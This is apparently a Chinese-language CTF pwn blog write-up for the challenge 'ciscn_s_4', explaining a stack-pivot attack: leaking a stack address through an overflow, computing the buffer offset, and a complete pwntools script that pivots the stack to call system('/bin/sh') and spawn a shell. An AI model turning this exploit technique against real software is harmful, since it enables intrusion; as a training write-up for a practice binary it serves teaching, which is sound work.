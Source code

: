 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

- 栈迁移

![image-20240117144616542](../assets/img/old_imgs/image-20240117144616542.png)

1. 存在漏洞函数,`s`变量存在溢出,但是长度不够,考虑栈迁移
2. 通过溢出打印(动态调试也可以)`ebp`栈上地址,计算得出`s`的地址,栈迁移到`s`的位置上
3. 向`s`中写入`payload`得到`shell`

![image-20240117145052413](../assets/img/old_imgs/image-20240117145052413.png)

计算得到偏移量为`0x38`

```python
from pwn import *
context.log_level = 'debug'
elf = ELF('./ciscn_s_4')
io = process('./ciscn_s_4')
#io = gdb.debug('./ciscn_s_4')
padding = b'A'*0x27+b'B'
payload1 = padding
leave_ret = 0x08048562
io.sendafter(b'Welcome, my friend. What\'s your name?\n',payload1)
io.recvuntil(b'B')
s_addr = u32(io.recv(4))-0x38
print('s_addr->',hex(s_addr))

payload2 = p32(0)+p32(elf.plt['system'])+p32(0)+p32(s_addr+0x10)+b'/bin/sh\x00'
payload2 = payload2.ljust(0x28,b'\x00')
payload2 += p32(s_addr)+p32(leave_ret)
io.send(payload2)

io.interactive()
```

详细关于栈迁移在之前随笔中有详解,不再赘述

有几个注意点:

1. `padding`中`B`起到标识位作用,方便后续交互
2. `payload2`开头`p32(0)`是为了填充`leave`指令
3. `b'/bin/sh'`的地址计算与`b\x00'`截断